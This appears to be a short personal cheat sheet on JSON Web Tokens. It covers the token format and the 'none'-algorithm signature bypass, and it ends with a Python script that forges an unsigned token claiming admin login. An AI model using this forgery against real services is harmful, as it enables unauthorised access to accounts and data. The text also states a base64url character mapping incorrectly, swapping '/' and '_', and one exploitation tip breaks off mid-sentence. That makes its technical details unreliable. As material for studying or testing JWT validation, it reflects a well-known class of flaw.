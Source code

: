 # jwt 
Jwt.io can be used to generate tokens with a given secret. 

## jwt format
base64urlencode(json header).base64urlencode(json payload).base64urlencode(signature)
- note that  base64 != base64urlencoded
- In the  jwt, base64 "+" becomes "-" , "_" => "/" and "=" is dropped

## jwt security
Some implementations fail to disable use of "none" algorithm; this results 
in a user's ability to send arbitrary requests because the application won't
verify them.

## exploting
- always: check if an app will accept a "none" algorithm.
- always: check the order of your tokens if you're getting errors. Some
implementations will be pickey about this, for example if we have something
like : {"typ":"JWT","alg":"None"}, that != {"alg":"None","typ":"JWT"}
- if: you're getting errors, with none,

## python script to accomplish the above
Note python package "jwt" != "pyjwt", but iirc both result in needing to import
"jwt", which can then result in some confusion. For the below, pyjwt was used.

```python
#!/usr/bin/env python3
import time
import jwt
encoded = jwt.encode({'login': 'admin',"iat":int(time.time())}, None, algorithm=None)
print(encoded)
```
